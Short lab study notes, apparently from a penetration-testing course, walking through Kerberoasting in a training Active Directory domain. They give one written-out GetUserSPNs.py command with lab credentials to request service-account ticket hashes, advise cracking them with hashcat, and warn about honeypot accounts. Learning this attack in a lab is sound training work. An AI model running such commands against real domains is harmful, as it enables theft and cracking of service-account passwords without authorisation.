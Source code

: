 Kerberoasting Walkthrough

Tuesday, October 10, 2023

9:48 PM

> Finding and cracking service accounts passwords
>
>  

-   Example command

    -   sudo GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc 10.0.2.250 -request

![](005_Kerberoasting_Walkthrough_000.png){width="17.270833333333332in" height="4.59375in"}

\*Careful of no logon or old logon could be honeypot\*

 

-   Save hash in file and crack with hashcat

> ![](005_Kerberoasting_Walkthrough_001.png){width="12.354166666666666in" height="5.53125in"}
>
>  
>
> ![](005_Kerberoasting_Walkthrough_002.png){width="17.3125in" height="6.46875in"}
>
>  
